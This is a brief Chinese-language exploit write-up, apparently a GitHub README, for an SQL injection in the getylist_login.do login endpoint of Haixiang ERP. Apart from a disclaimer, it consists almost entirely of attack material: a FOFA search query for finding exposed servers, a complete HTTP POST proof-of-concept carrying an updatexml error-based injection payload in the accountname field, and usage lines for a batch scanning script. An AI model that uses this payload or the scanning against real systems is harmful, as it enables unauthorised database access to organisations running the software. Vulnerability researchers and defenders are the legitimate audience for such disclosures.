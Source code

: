 # 海翔ERP getylist_login.do SQL注入漏洞

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa语法

***\*body="checkMacWaitingSecond"\****

POC:

POST /getylist_login.do HTTP/1.1

Host: 

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

Connection: close

Content-Length: 77

Accept-Encoding: gzip

Content-Type: application/x-www-form-urlencoded; charset=UTF-8



accountname=test' and (updatexml(1,concat(0x7e,(select md5(123)),0x7e),1));--



![image-20231223223607591](assets/image-20231223223607591.png)



批量poc(记得安装库)

python poc.py -u 



python poc.py -f  .txt

![image-20231223223621029](assets/image-20231223223621029.png)
